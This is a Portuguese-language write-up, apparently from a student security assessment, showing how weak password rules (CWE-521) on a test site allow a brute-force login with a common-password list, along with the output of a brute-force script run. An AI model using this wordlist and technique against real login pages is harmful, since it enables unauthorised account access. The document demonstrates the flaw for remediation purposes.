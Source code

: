 ## CWE-521: Weak Password Requirements
- https://cwe.mitre.org/data/definitions/521.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-521-weak-password-requirements).**

---
# Exploração da vulnerabilidade

## Ataque: *brute force* no login, usando uma lista de passwords comuns.
### Conhecimento prévio
O atacante, além de saber que o site não exige a submissão de um CSRF token, possui uma lista de passwords comuns como esta:
```
1. guest
2. 123456
3. password
4. 12345
5. a1b2c3
6. 123456789
7. Password1
8. 1234
9. abc123
10. 12345678
11. qwerty
12. baseball
13. football
14. unknown
15. soccer
16. jordan23
17. iloveyou
18. monkey
19. shadow
20. g_czechout
```

O atacante conhece o email de um utilizador.

### Passo 1
Executar um algoritmo que experimenta todas as passwords da lista, até encontrar a correta.

Ver o nosso [exemplo de código Python](brute_force.py).

### Resultado
```bash
$ python3 brute_force.py target@example.com -p 8001
Try: guest
Failed login!
Try: 123456
Failed login!
Try: password
Failed login!
Try: 12345
Failed login!
Try: a1b2c3
Failed login!
Try: 123456789
Failed login!
Try: Password1
Failed login!
Try: 1234
Failed login!
Try: abc123
Failed login!
Try: 12345678
Failed login!
Try: qwerty
Successful login!
```

O atacante fica a conhecer a password da vítima e a ter acesso à respetiva conta.
